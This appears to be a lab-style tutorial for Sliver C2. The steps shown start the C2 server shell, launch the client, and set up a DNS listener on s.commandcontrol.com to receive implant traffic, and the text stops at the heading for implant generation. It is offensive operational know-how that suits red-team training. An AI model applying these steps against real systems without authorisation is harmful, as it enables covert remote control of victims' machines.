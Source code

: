 ## Step 1: Generate the Payload

1. **Connect to the C2 Server Shell:**

   ```bash
   make c2_server_shell
   ```

2. **Start the Sliver Client:**

   ```bash
   # sliver
   Connecting to localhost:31337 ...
   
       ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
       ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
       ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
       ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
       ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
       ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝
   
   All hackers gain first strike
   [*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
   [*] Welcome to the sliver shell, please type 'help' for options
   
   [*] Check for updates with the 'update' command
   
   sliver >
   ```

   You should see the Sliver banner indicating that the client has started successfully.

## Step 2: Set Up DNS Listeners

To enable communication over DNS, set up a DNS listener with the correct Fully Qualified Domain Name (FQDN):

```bash
sliver > dns --domains s.commandcontrol.com   --lport 53 -D -c

[*] Starting DNS listener with parent domain(s) [s.commandcontrol.com.] ...

[*] Successfully started job #1
```

- **Explanation:**
  - `--domains s.commandcontrol.com`: Specifies the domain to use for DNS communication.
  - `--lport 53`: Sets the listener port to 53, the default DNS port.
  - `-D -c`: Flags to resolve issues related to the latest Sliver release (see [this issue](https://github.com/BishopFox/sliver/issues/1714#issuecomment-2437165100) for more details).

## Step 3: Generate the Implant

Create a payload (implant) that will be executed on the target machine:

